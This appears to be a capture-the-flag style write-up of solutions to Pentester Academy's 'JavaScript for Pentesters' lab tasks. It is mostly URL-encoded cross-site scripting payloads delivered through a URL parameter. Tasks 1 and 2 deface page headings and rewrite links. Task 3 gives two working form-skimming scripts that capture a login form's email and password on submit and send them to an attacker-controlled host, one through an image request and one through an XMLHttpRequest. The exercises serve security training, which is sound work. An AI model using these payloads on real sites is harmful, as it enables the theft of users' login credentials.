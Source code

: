 
### Target

    https://www.pentesteracademy.com/course?id=11

### Prereq

Include this in your `.bashrc`:

    https://stackoverflow.com/questions/296536/how-to-urlencode-data-for-curl-command/10660730#10660730

### Task 1

    https://pentesteracademylab.appspot.com/lab/webapp/jfp/1

**Solution**

```
https://pentesteracademylab.appspot.com/lab/webapp/jfp/1?url=<payload>

Payloads generation:
rawurlencode '<script>document.getElementsByTagName("h2")[2].innerHTML = "Modified you"</script>'
rawurlencode '<script>document.getElementsByTagName("h1")[0].innerHTML = "Found you"</script>'
```

### Task 2

    https://pentesteracademylab.appspot.com/lab/webapp/jfp/2

**Solution**

```
https://pentesteracademylab.appspot.com/lab/webapp/jfp/2?url=<payload>

Payload generation:
rawurlencode '<script>for (i=0;i<document.getElementsByTagName("a").length;++i) { document.getElementsByTagName("a")[i].href = "http://PentesterAcademy.com/topics"; }</script>'
```

### Task 3

    https://pentesteracademylab.appspot.com/lab/webapp/jfp/3

**Solution**

    https://pentesteracademylab.appspot.com/lab/webapp/jfp/3?email=abc@xyz.com&password=111&url=<payload>

Preparing the payload (adding `<img>` tag):

```
$ cat > JSforPentesters-3.js <<'EOF'
function intercept() {
    new Image().src = "https://attacker-controlled.machine/3?email=" + document.forms[0].elements[0].value + "&password=" + document.forms[0].elements[1].value;
    return false;
}
document.forms[0].onsubmit = intercept;
EOF

$ rawurlencode "<script>$(uglifyjs JSforPentesters-3.js)</script>"
```

Alternative payload (triggering `xhr` request - request will cause CORS abuse in browser but it will be send, response will be blocked but the browser):

```
$ cat > JSforPentesters-3-2.js <<'EOF'
function intercept() {
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "https://attacker-controlled.machine/3?email=" + document.forms[0].elements[0].value + "&password=" + document.forms[0].elements[1].value);
    xhr.send();
    return false;
}
document.forms[0].onsubmit = intercept;
EOF

rawurlencode "<script>$(uglifyjs JSforPentesters-3-2.js)</script>"
```
